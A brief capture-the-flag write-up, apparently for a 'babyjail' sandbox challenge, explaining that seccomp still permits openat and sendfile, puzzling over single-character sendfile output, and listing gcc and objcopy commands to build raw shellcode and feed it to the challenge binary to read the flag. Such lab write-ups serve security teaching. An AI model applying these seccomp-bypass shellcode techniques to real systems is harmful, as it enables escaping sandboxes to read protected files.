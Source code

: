Now, the problem is that the program uses `seccomp` to block some system calls.
Fortunately, system calls that we have been using, which are `openat` and `sendfile` is allowed.
Thus, we can use the same code for this problem.

However, I do not know the reason but it only outputs a single character for each `sendfile` function.
When you look deep into it using `strace`, the assembly code looks perfect but what `strace` prints is different from the code.
```
sendfile(1, 4, NULL, 1p);
```

`1p` probably is the reason for a single character output.
The simplest way to solve is making a loop to print all the flag values.

Run the following commands to capture the flag!
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level4_teaching1 / < ~/shellcode-raw
```